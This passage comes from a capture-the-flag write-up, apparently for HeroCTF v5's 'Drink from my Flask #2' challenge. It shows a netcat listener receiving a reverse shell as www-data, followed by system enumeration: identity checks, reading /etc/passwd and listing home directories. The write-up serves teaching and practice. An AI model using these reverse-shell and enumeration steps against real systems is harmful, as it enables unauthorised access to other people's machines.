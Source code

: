 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513222905.png)

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:28:03(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47154
www-data@flask:~/app$ whoami;hostname;id
whoami;hostname;id
www-data
flask
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@flask:~/app$ 
```

I'm `www-data`!

Now, let's enumerate the system!

**System users:**
```shell
www-data@flask:~/app$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
flaskdev:x:1000:1000:,,,:/home/flaskdev:/bin/bash
www-data@flask:~/app$ ls -lah /home
ls -lah /home
total 12K
drwxr-xr-x 1 root     root     4.0K May 13 03:17 .
drwxr-xr-x 1 root     root     4.0K May 13 14:13 ..
drwxr-xr-x 1 flaskdev flaskdev 4.0K May 13 03:17 flaskdev
```
